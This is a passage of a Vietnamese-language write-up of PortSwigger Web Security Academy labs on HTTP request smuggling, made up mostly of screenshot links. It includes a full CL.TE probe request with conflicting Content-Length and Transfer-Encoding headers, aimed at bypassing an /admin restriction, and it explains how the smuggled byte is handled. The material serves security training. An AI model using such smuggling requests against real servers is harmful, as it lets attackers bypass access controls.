>Send request lần thứ nhất:
>![image](https://hackmd.io/_uploads/Skj47w7d0.png)

>Send lần 2:
>![image](https://hackmd.io/_uploads/H1eL7wmOC.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/rkJvXv7dC.png)

### **6. Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability**
![image](https://hackmd.io/_uploads/SyuM5P7_R.png)

>Khi truy cập trang quản trị `/admin` thì ta bị chặn:
![image](https://hackmd.io/_uploads/Sk0ZqDQuA.png)

>Ta cần xác nhận xem bài lab này thuộc dạng gì, sau khi gửi request sau:
```
POST / HTTP/1.1
Host: 0a5a009b038cd52b80ec6ccd006c00c5.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
![image](https://hackmd.io/_uploads/Bk6-iDmOC.png)

>Gửi lại lần 2:
>![image](https://hackmd.io/_uploads/H1wmiDXO0.png)

>Bên front-end server xử lí header `Content-Length: 6` sẽ lấy phần body có kích thước `6` bytes và chuyển tới back-end server:
```
0\r\n
\r\n
G
```
